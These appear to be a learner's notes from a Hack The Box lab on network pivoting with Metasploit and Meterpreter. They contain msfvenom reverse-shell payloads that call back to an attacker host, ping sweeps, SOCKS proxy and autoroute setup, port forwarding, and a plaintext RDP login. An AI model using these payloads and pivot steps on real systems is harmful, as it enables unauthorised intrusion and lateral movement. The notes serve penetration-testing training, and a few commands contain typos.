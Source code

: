 
### Create payload for a pivot host

```python
datboyblu3@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

### Configuring & Starting the multi/handler

```python
msf6 > use exploit/multi/handler
```

>[!note] Copy the `backupjob` binary file to the Ubuntu pivot host `over SSH` and > execute it to gain a Meterpreter session.

### Execute payload on pivot host

```python
chmod +x backupjob 
```

```python
./backup
```

NOTE: Upon execution, ensure the metepreter session is fully established

### Meterpeter Session Establishment

```python
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd
/home/ubuntu
```

### Ping Sweep

**Facts**

- Windows target is on the 172.16.5.0/23 network
- Windows firewall is allowing ICMP requests
- Meterpeter's `ping_sweep` module can generate ICMP traffic from the Ubuntu host to the network

```python
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

#### Ping Sweep via For Loop

^ping-for-loop

**Linux Hosts**

```warp-runnable-command
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

**Windows - CMD**

```warp-runnable-command
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

Windows - PowerShell

```warp-runnable-command
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

#### Circumvent Firewall blocking ICMP requests (pings)

^ping-blocks

Meterpreter's socks_proxy module, a post-exploitation module can be used to forward traffic to our local proxy on your attack host.

Configure SOCKS version 4a to start a listener on port `9050` and route all the traffic received via our Meterpreter session.

### Configuring MSF's SOCKS Proxy

```go
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options
Module options (auxiliary/server/socks_proxy):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

#### Confirm Proxy Server is Running

```python
msf6 auxiliary(server/socks_proxy) > jobs
Jobs
====
  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

>[! Hint] Now configure proxychains to route traffic generated by other tools lthrough our pivot on the compromised Ubuntu host. Add the below line at the end of our proxychains.conf file located at /etc/proxychains.conf if it isn't already there.

>>

>```python

>socks4 127.0.0.1 9050

>```

NOTE: You may need to change socks4 to socks5 in proxychains.conf, depending on the server version

#### Route all the traffic via your Meterpreter session

Use the `post/multi/manage/autoroute` module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

#### Creating Routes with AutoRoute

```python
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

#### Listing Active Routes with AutoRoute

Use the `-p` option to list the active routes

```python
meterpreter > run autoroute -p
```

Below, verify proxychain routed Nmap traffic via your Meterpreter session

#### Testing Proxy & Routing Functionality

```python
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

### Port Forwarding

Use Meterpreter's `portfwd` module to do Port Forwarding. Enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.

#### Creating a Local TCP Relay

```python
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

-l 3300: start a listener on attack host local port 3300

-p 3389 -r 172.16.5.19: send all packets to remote port 3389 on the remote host 172.16.5.19

Test if the above worked by remoting into the Windows machine:

```python
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

### Meterpreter Reverse Port Forwarding

Metasploit can also perform `reverse port forwarding` with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host

#### Reverse Port Forwarding Rules

```python
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

NOTE: forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port (-l) 8081

#### Configuring & Starting multi/handler

```python
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run
```

Create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

#### Generate the Windows Payload

```python
datboyblu3@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```

After executing the Windows payload.....

#### Establish Meterpreter Session

```python
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500
meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\>
```

